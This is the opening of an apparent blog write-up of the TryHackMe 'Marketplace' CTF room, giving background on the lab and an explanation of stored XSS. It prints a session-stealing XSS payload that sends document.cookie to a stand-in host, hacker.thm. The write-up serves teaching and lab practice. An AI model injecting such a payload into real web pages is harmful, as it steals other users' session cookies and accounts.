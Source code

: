 ```yaml
---
title: Marketplace CTF Write Up
date: 2023-10-20
categories: [CTF Write Up, THM]
tags: [xss, idor, cookies, sqli, sudo, wildcard-injection, container-escape, tar]
img_path: /assets/marketplace/
mermaid: true
---
```


![marketplace_banner](marketplace_banner.png)

## 1 Summary

[![](https://mermaid.ink/img/pako:eNplkE1OwzAQha8yMgtSqUFlm0WlkrZQqYCo-Vt4M4onrWkyrmxHpap6ETasuR1HwA4rxM6eefPNvHcUldUkClE3dl9t0AVYrhQrnmTPxnfYwIy7lhwGY3kAeQ7S8BqedlBb14JSfEd7WBofUrmv5fkYrjIZrCMNr1IOFF_1g-R9hIAMhE1S57mFaTbRreFzD492S5yA8wbXcAnfnx9fg6IoIuUXMIYyW0zvV0kjH5ZmAIrLBL49xG9Pm2VS3kAZR4iDwcYnLXSe3EV4D3-RZY-cZy-m0RU6DQt-oyrZTEOl5YCGycHMV7ijaGKedgV0qa1ttY29tPM6c9aG_3zFVYPeT6mGFIQPLhoszurRSAxFTLRFo2Pux3ggKBE21JISRXxqdFslFJ-iDrtg5YErUQTX0VB0O42BpgbXDltR1NEinX4ASVaYMQ?type=png)](https://mermaid.live/edit#pako:eNplkE1OwzAQha8yMgtSqUFlm0WlkrZQqYCo-Vt4M4onrWkyrmxHpap6ETasuR1HwA4rxM6eefPNvHcUldUkClE3dl9t0AVYrhQrnmTPxnfYwIy7lhwGY3kAeQ7S8BqedlBb14JSfEd7WBofUrmv5fkYrjIZrCMNr1IOFF_1g-R9hIAMhE1S57mFaTbRreFzD492S5yA8wbXcAnfnx9fg6IoIuUXMIYyW0zvV0kjH5ZmAIrLBL49xG9Pm2VS3kAZR4iDwcYnLXSe3EV4D3-RZY-cZy-m0RU6DQt-oyrZTEOl5YCGycHMV7ijaGKedgV0qa1ttY29tPM6c9aG_3zFVYPeT6mGFIQPLhoszurRSAxFTLRFo2Pux3ggKBE21JISRXxqdFslFJ-iDrtg5YErUQTX0VB0O42BpgbXDltR1NEinX4ASVaYMQ)

## 2 Background Information

[The Marketplace](https://tryhackme.com/room/marketplace) room felt like a "real-world" penetration testing scenario, as it has almost no guidance at all:

>The sysadmin of The Marketplace, Michael, has given you access to an internal server of his, so you can pentest the marketplace platform he and his team has been working on. He said it still has a few bugs he and his team need to iron out.

And that's all there is! We are now left alone to figure out where those 🚩🚩🚩 are 🤔 !

There are a lot of concepts involved in this CTF room, so grab a strong ☕️ and let's crack on!

### 2.1 Cross-site Scripting (XSS)

**Cross-site Scripting (XSS)** is an injection attack where the payload, i.e. malicious JavaScript code, gets injected into a web application with the intention of being executed by other users.

Many payload types exist, but the one we are interested in for this room is used for **Session Stealing**, and looks like this:

```javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

There are also different kinds of XSS, one of them is called **Stored XSS**, which, as the name infers, stores its payload on the web application and then gets run when other users visit the page.
